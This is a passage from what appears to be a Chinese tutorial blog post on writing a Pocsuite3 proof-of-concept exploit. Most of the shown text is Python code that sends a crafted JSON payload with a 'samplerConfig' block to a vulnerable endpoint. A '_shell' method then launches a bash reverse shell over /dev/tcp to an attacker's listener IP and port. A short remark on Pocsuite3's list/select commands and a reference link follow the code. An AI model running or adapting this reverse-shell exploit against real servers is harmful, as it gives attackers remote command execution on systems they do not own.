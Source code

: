 ```py
            }
        },
        "samplerConfig": {
            "numRows": 500,
            "cacheKey": "c67e2881f1c64110b40c0f67608b0022"
        }
    }
        rep = requests.post(url=vul, headers=headers, data=json.dumps(data))
    def _shell(self):
        cmd = "/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/{0}/{1} 0>&1".format(get_listener_ip(), get_listener_port())
        # print(cmd)
        result = dict()
        self.getshell(cmd)
        return self.parse_output(result)

    def parse_output(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('target is not vulnerable')
        return output

register_poc(POC)
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/d33ff4fde34e486facfb1fe44e4548b2.png)
这里注意Pocsuite3的语法，需要先`list`列出来，然后`select`进行选择


### 参考链接
[https://cloud.tencent.com/developer/article/1851527](https://cloud.tencent.com/developer/article/1851527)
